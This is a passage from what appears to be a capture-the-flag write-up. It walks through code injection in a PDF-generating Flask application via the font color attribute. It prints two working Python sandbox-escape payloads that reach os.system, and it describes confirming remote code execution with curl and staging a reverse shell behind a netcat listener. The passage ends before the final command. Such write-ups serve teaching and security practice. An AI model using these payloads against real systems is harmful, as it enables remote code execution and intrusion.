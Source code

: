 Looking in Burp Suite, we can tell it is because of the HTML encoding we saw it is doing earlier.  
![image](https://i.imgur.com/oiPvCeE.png)

No worries, let's work from Burp then and simply put our payload to be parsed Server Side:  
![image](https://i.imgur.com/EqdBH6u.png)

Interestingly enough, we have a 500 Internal Server Error received and it looks like this is a Flask application with Debug set to True. The console is accessible but we can't read files from the server to be able to generate a pin.

![image](https://i.imgur.com/DCSdh5Q.png)

The error mentions some Index Error about the paragraph text so let's remove the `<para>` tags which will also give us more characters to work with. We are down to `286` characters without issuing any command:  

```bash
<font color="[[getattr(pow,W('__globals__'))['os'].system('')for W in[O('W',(str,),{'M':1,'startswith':lambda s,x:False, '__eq__':lambda s,x:s.m()and s.M<0 and str(s)==x,'m':lambda s:{setattr(s,'M',s.M-1)},'__hash__':lambda s:hash(str(s))})]]for O in [type(type(1))]]and 'red'">t</font>
```
We send that via Burp and a PDF is generated where we can see our letter in red which means that the code was parsed correctly, we have the code injection working:  

![image](https://i.imgur.com/WEEhRPA.png)

But we still don't have enough room to actually run any commands so let's go deeper. We can remove the closing font tag and the letter since we don't actually need to write anything into the PDF. For the same reason, we can also replace the word red with a letter. Also, another way of saying `x:False` in python is `x:0` because 0 is False. So we trimmed down more characters from there. We have finally cut off as much as we could, or at least as much as I could or even need for the next step. 

We are currently at `271` characters without issuing a command. I'm curious to see if players will find another way of getting this POC even shorter/smaller.

```bash
<font color="[[getattr(pow,W('__globals__'))['os'].system('')for W in[O('W',(str,),{'M':1,'startswith':lambda s,x:0,'__eq__':lambda s,x:s.m()and s.M<0 and str(s)==x,'m':lambda s:{setattr(s,'M',s.M-1)},'__hash__':lambda s:hash(str(s))})]]for O in[type(type(1))]]and 'r'"/>
```

We now have room to run a command to test our RCE. We issue a simple curl command. Although we get another 500 Internal Server Error, we can see that a GET request was made on our python web server:  

![image](https://i.imgur.com/U0TT5Go.png)

It's time to try getting a reverse shell. Using [revshells.com](https://www.revshells.com/) we can generate a payload for python windows version:  

![image](https://i.imgur.com/JZMkOs9.png)

We save the payload in a file called `r` (in my case), host it via the python webserver, set a netcat listener on the port we chose for the reverse shell then issue the following command via Burp Suite:
